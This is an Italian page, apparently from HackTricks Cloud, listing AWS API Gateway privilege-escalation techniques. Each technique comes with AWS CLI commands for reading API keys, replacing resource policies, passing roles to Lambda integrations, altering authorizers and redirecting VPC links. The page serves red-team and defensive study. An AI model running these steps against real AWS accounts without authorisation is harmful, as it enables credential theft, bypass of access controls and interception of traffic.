 # AWS - Escalazione dei privilegi di Apigateway

{% hint style="success" %}
Impara e pratica l'Hacking su AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}

## Apigateway

Per ulteriori informazioni controlla:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Con questa autorizzazione puoi generare chiavi API delle API configurate (per regione).
```bash
aws --region <region> apigateway create-api-key
```
**Impatto Potenziale:** Non è possibile eseguire l'escalation dei privilegi con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:GET`

Con questa autorizzazione è possibile ottenere le chiavi API generate delle API configurate (per regione).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impatto Potenziale:** Non è possibile eseguire un'escalation dei privilegi con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Con queste autorizzazioni è possibile modificare la policy delle risorse di un'API per ottenere accesso per chiamarla e sfruttare l'accesso potenziale che potrebbe avere il gateway API (come invocare una lambda vulnerabile).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impatto Potenziale:** Di solito, non sarai in grado di eseguire l'escalation dei privilegi direttamente con questa tecnica, ma potresti ottenere accesso a informazioni sensibili.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con i permessi `apigateway:PutIntegration`, `apigateway:CreateDeployment` e `iam:PassRole` può **aggiungere una nuova integrazione a un'API Gateway REST API esistente con una funzione Lambda che ha un ruolo IAM associato**. L'attaccante può quindi **attivare la funzione Lambda per eseguire codice arbitrario e potenzialmente ottenere accesso alle risorse associate al ruolo IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Accesso alle risorse associate al ruolo IAM della funzione Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con i permessi `apigateway:UpdateAuthorizer` e `apigateway:CreateDeployment` può **modificare un authorizer API Gateway esistente** per eludere i controlli di sicurezza o eseguire codice arbitrario quando vengono effettuate richieste API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Eludere controlli di sicurezza, accesso non autorizzato alle risorse dell'API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Necessita di test
{% endhint %}

Un attaccante con il permesso `apigateway:UpdateVpcLink` può **modificare un collegamento VPC esistente per puntare a un diverso Network Load Balancer, potenzialmente reindirizzando il traffico dell'API privata a risorse non autorizzate o dannose**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impatto Potenziale**: Accesso non autorizzato alle risorse API private, intercettazione o interruzione del traffico API.

{% hint style="success" %}
Impara e pratica l'Hacking su AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di Github.

</details>
{% endhint %}
